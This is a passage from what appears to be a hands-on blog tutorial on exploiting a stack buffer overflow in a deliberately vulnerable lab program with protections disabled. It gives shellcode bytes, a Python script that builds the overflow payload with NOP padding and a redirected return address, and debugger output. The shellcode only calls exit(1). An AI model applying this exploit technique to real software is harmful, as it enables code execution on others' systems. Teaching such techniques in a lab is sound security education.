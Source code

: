     - Let’s call this the **matrix method**, because as I said, I’m bad at naming things. Anwyay, here’s a quick visualization of our goal:

```bash
0xffffcde8:	0xdeadbeef	0xdeadbeef	0xdeadbeef	0xffffcdf8
0xffffcdf8:	0xshelcode	0xshelcode	0xshllcode	0xffffceb4
0xffffce08:	0xffffcebc	0xffffce20	0xf7e1fe2c	0x56556192
0xffffce18:	0x00000001	0xffffceb4	0xf7e1fe2c	0xffffcebc
```

Because we can, lets do both!

### Snipe method

Let’s outline the steps of our creating the snipe shell code:
- insert `exit 01` shell code (`\x31\xc0\x40\x89\xc3\xcd\x80`) into the `buffer`
- insert `NOP`’s (`\x90`) to pad the remaining 1 byte and also pad the `sfp`
	- we don’t really need to do anything with the `sfp`, we’re just padding it so we can get to the `rip`.
- redirect the rip to the start our buffer at `0xffffcde8`

Of course we can just write the bytes in the terminal directly to `payload`, but for the purpose of re-usability lets do it in `python`:

``` python
import struct

# we want to write past the sfp and change rip
nop = "\x90"
buf_addr = 0xffffcde8
redirect = struct.pack("<I", buf_addr)
exit_one = b"\x31\xc0\x40\x89\xc3\xcd\x80" 

payload = exit_one + (nop * 5) + redirect

with open("payload", "wb") as f:
	f.write(payload)
```

Our final `payload` should look like something like this in bytes:
`\x31\xc0\x40\x89\xc3\xcd\x80 \x90\x90\x90\x90\x90 \xe8\xcd\xff\xff`
- the python `struct.pack()` simply packs the `buf_addr` in bytes, and as you may have already guessed (or you already knew about that, idk), the `"<I"` specifies it to be in little-endian format.
- note that the spaces shouldn’t be there, I’m just adding those in to make it readable to humans.

now let’s rerun `vuln` with the payload automatically inserted when it asks for input with `r < payload`

I set a break point at the part right before the `esp` is incremented to deallocate the stack frame for `vuln`, so we can look at the stack from the esp at that point:

{{< figure src="pointbreak.png" width="550">}}

as we can see, the buffer starting at `0xffffcde8` already has the `exit(1)` shell code. It has been padded with a `nop` (`\x90`), but that will be fine since its in little-endian format. The `rip` at `0xffffcdf4` has also been redirected to  `0xffffcde8`, which will be executed (since we turned off write/execute protection in our compiler flags).
